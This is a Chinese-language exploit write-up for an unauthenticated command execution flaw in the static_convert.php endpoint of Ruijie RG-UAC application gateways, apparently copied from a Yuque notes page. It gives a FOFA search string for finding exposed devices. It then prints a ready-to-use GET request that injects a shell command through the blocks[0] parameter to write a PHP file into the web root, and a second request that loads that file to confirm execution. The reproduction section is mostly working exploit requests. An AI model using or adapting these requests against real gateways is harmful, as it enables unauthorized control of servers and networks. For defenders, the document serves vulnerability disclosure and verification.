 # 锐捷RG-UAC应用网关static_convert.php前台RCE漏洞

### 一、漏洞描述
<font style="color:rgba(0, 0, 0, 0.9);">锐捷RG-UAC应用管理网关static_convert.php 接口处存在命令执行漏洞，未经身份认证的攻击者可执行任意命令控制服务器权限。</font>

### 二、影响版本
锐捷RG-UAC应用网关

### 三、资产测绘
fofa：app="Ruijie-RG-UAC"

特征：

![1708679452594-4ac22429-3b10-4a58-8ee3-d7d42244c115.png](./img/Q8lxrxaSC9nu8f0u/1708679452594-4ac22429-3b10-4a58-8ee3-d7d42244c115-439134.png)

### 四、漏洞复现
```java
GET /view/IPV6/naborTable/static_convert.php?blocks[0]=|echo%20%27<?php%20echo%20md5("666");unlink(__FILE__);?>%27%20>/var/www/html/ceshi.php HTTP/1.1
Host:
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![1718990706166-fc93cf5e-ef51-4a13-b3dd-ca7d657fbc41.png](./img/Q8lxrxaSC9nu8f0u/1718990706166-fc93cf5e-ef51-4a13-b3dd-ca7d657fbc41-942982.png)

```java
GET /ceshi.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```

![1718990752914-a4154066-0057-4a6c-9bdb-53d9f30aebf0.png](./img/Q8lxrxaSC9nu8f0u/1718990752914-a4154066-0057-4a6c-9bdb-53d9f30aebf0-266952.png)









> 更新: 2024-06-24 11:42:29  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ofaghdl3fyqnfsf3>